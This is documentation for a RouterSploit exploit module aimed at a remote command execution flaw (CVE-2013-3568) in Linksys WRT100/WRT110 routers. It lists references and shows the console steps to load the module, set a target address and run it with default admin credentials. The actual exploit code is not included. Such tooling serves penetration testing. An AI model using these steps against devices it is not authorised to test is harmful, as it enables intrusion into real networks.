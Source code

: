 # Linksys WRT100/WRT110 RCE

## Description
Module exploits remote command execution in Linksys WRT100/WRT110 devices.If the target is vulnerable, command loop is invoked that allows executing commandson operating system level.

## Authors
* Craig Young # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-3568](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-3568)
* [http://seclists.org/bugtraq/2013/Jul/78](http://seclists.org/bugtraq/2013/Jul/78)

## Vulnerable devices
* Linksys WRT100
* Linksys WRT110

## Usage
```
rsf > use exploits/linksys/wrt100_110_rce
rsf (Linksys WRT100/WRT110 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username to log in
   password     admin                Password to log in


rsf (Linksys WRT100/WRT110 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Linksys WRT100/WRT110 RCE) > run
[*] Running module...
```

